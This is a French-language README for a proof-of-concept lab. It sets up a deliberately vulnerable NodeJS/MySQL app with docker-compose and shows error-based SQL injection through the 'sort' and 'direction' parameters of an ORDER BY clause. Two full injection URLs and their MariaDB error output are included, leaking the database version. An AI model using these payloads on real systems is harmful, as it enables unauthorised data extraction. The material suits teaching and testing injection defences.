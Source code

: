 # PoC - Exploitation des injections SQL dans les clauses ORDER BY

## Installation

```
$ docker-compose build
$ docker-compose up -d
```

![image](https://github.com/user-attachments/assets/39419bea-36df-4182-a049-6e86d2c2a09a)

## Description

L'application, développée en NodeJS avec l'extension mysql, permet de rechercher des utilisateurs présents dans une base de données MySQL (Mariadb). Toutefois, les paramètres "sort" et "direction" utilisés au sein de la clause `ORDER BY` lors de l'appel à l'API sont sensibles aux injections SQL.

## Exploitation

Récupération de la version du système de base de données via le paramètre "sort" :

```sql
/users?search=&sort=username OR (SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),CAST(VERSION() AS NCHAR),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&direction=ASC&page=1&maxPerPage=5
```

```
Error: SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~10.11.6-MariaDB-1:10.11.6+maria~ubu2204~:1' for key 'group_key'
```

Récupération de la version du système de base de données via le paramètre "direction" :

```sql
/users?search=&sort=username&direction=ASC,(SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),CAST(VERSION() AS NCHAR),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&page=1&maxPerPage=5
```

```
Error: SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~10.11.6-MariaDB-1:10.11.6+maria~ubu2204~:1' for key 'group_key'
```

## Démo

![](https://github.com/Sharpforce/cybersecurity-code/blob/master/exploitation-des-injections-sql-au-sein-de-la-clause-order-by/Node.js-et-MySQL/demo/demo.gif)